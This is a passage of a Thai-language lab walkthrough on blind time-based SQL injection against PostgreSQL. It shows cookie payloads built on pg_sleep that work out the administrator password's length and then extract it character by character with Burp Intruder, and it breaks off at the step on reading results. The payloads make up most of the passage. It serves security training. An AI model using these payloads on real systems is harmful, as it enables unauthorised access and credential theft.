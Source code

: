 **ผลลัพธ์:** ถ้าเกิด delay 10 วินาที แสดงว่ามี user ชื่อ administrator

## ขั้นตอนที่ 3: หาความยาวของ Password

### เริ่มจากทดสอบว่า password ยาวกว่า 1 ตัวอักษร:
```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

### ทดสอบต่อไปเรื่อยๆ:
```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>3)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

**ทำไปเรื่อยๆ จนกว่าจะไม่เกิด delay (ตอบสนองทันที) = รู้ความยาวของ password**
*ในกรณีนี้ password ยาว 20 ตัวอักษร*

## ขั้นตอนที่ 4: ใช้ Burp Intruder หาตัวอักษรทีละตัว

**ส่ง request ไปที่ Burp Intruder และตั้งค่า cookie:**
```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

### ใส่ payload position markers:
```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

## ขั้นตอนที่ 5: การตั้งค่า Burp Intruder

### Payload Configuration:
- เลือก **Simple list**
- เพิ่ม payload: `a-z` และ `0-9`
- ใช้ "Add from list" dropdown เพื่อความสะดวก

### Resource Pool Configuration (สำคัญมาก!):
- ไปที่ **Resource pool** tab
- ตั้งค่า **Maximum concurrent requests = 1**
- *เพื่อให้การวัดเวลามีความแม่นยำ*

## ขั้นตอนที่ 6: การอ่านผลลัพธ์
